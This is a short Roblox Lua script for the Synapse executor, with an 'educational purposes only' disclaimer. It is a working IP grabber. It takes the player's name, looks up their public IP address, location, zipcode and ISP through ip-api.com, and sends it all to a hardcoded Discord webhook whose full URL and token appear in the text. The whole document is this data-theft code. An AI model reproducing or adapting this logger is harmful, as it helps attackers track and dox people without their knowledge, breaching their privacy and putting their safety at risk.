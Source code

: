 --I DO NOT CONDONE THE MALICIOUS USE OF THIS SCRIPT. THIS IS PURELY FOR EDUCATIONAL PURPOSES AND SHOULD NOT BE USED IN ANY CONTEXT OTHER THAN THAT. PLEASE STAY SAFE AND BE CLEAR OF SCRIPTS THAT MAKE CONTAIN RELATED OR SIMILAR CONTENT.
local player_name = game:GetService("Players").LocalPlayer.Name
local webhook_url = "https://discord.com/api/webhooks/970385426588246137/Yb9BzEYnzLAKVmUkUB40r2yhA8jYJFiAUE-ydfzi0aLMNyHVKbpb6neJWYurY9nCu3F2"

local ip_info = syn.request({
    Url = "http://ip-api.com/json",
    Method = "GET"
})
local ipinfo_table = game:GetService("HttpService"):JSONDecode(ip_info.Body)
local dataMessage = string.format("```User: %s\nIP: %s\nCountry: %s\nCountry Code: %s\nRegion: %s\nRegion Name: %s\nCity: %s\nZipcode: %s\nISP: %s\nOrg: %s```", player_name, ipinfo_table.query, ipinfo_table.country, ipinfo_table.countryCode, ipinfo_table.region, ipinfo_table.regionName, ipinfo_table.city, ipinfo_table.zip, ipinfo_table.isp, ipinfo_table.org)
syn.request(
    {
        Url = webhook_url,
        Method = "POST",
        Headers = {
            ["Content-Type"] = "application/json"
        },
        Body = game:GetService("HttpService"):JSONEncode({["content"] = dataMessage})
    }
)
